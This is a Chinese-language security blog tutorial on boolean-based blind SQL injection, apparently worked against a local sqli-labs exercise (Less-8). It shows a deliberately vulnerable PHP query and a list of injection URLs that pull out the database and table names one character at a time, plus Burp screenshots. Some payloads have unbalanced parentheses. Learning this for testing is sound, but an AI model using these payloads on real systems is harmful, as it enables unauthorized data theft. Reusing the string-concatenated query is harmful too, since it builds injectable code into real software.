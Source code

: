 ```yaml
---
layout: post
title: "SQL注入-SQL盲注-布尔盲注"
date: 2018-06-21
category: web安全
tags: web安全 sql注入 布尔盲注
---
```

## SQL盲注-布尔盲注

### 01布尔盲注原理
	
	$id=$_GET['id'];
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1 ";
	$result=mysql_query($sql);
	$row=mysql_fetch_array($result);
	if($row)
	{
		echo "Right";
	}
	else
	{
		echo "Wrong";
	}


代码存在SQL注入漏洞  
然而页面即不会回显数据，也不会回显错误信息  

只返回 “Right” 与 “Wrong”   

这里我们可以通过构造语句，来判断数据库信息的正确性，再通过页面的“真”和“假”来识别我们的判断是否正确，这既是布尔盲注！  


正确请求，id=1 -> 返回 id=1的数据  

错误请求，id=1' -> 返回 与正确页面不同的页面  
1.如果页面返回“假”，说明系统执行的SQL语句为“假”如：id=1 and left((select version()),1)=5--+  
2.想办法构造语句，判断数据库中内容的值  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/01.jpeg)

### 02布尔盲注方法

构造逻辑判断语句，判断信息的真假，取出所有的真值，实现SQL注入  

	left() left(database(),1)>'s'
			database()显示数据库名称，left(a,b)从左侧截取a的前b位
	regexp select user() regexp '^r'
			正则表达式的用法user()结果位root,regexp为匹配root的正则表达式
	like	select user() like 'ro%'
			与regexp类似，使用like进行匹配
	substr()  ascii(substr((select database()),1,1))=98
	ascii() substr(a,b,c)从b位置开始，截取字符串a到c长度，ascii()将某个字符转换为ascii值
	ord()	ord(mid((select user()),1,1))=114
	mid()	mid(a,b,c)从位置b开始，截取a字符串的c位ord()函数痛ascii(),将字符串转为ascii值
	
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/02.jpeg)


[MySql正则表达式](http://www.runoob.com/mysql/mysql-regexp.html)

注入点： 

	http://localhost:90/Less-8/?id=1'
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='a'--+
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='s'--+ 显示正确第一位为s

	http://localhost:90/Less-8/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e'--+ 第一个表名称字符

	http://localhost:90/Less-8/?id=1' and (select database() regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'e%')--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select database()),1,1))=115--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select table_name from information_schema.tables where table_schema=database()),1,1))=115--+


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/ascii.jpg)


## burp操作步骤
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/03.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/04.jpg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/05.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/06.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/05/07.jpg)
















